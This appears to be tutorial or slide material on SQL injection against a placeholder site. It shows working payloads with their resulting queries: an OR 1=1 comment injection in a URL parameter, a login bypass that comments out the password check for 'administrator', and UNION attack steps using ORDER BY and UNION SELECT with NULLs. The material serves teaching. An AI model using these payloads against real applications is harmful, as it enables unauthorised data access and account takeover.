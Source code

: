 ```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
SELECT * FROM products
WHERE category = 'Gifts'
OR 1=1--'
AND released = 1
```

---

## Subverting application logic 

```
SELECT * FROM users
WHERE username = 'wiener'
AND password = 'bluecheese'
```

----

## Subverting application logic 


```
SELECT * FROM users
WHERE username = 'administrator'--'
AND password = ''
```

---

## UNION attacks

```
SELECT * FROM products
WHERE category = 'Gifts'
```

----

## UNION attacks

```
SELECT * FROM products
WHERE category = 'Gifts'
ORDER BY 1 --'
```

----


## UNION attacks

```
SELECT * FROM products
WHERE category = 'Gifts'
UNION
SELECT 'a',NULL,NULL,NULL --'

```
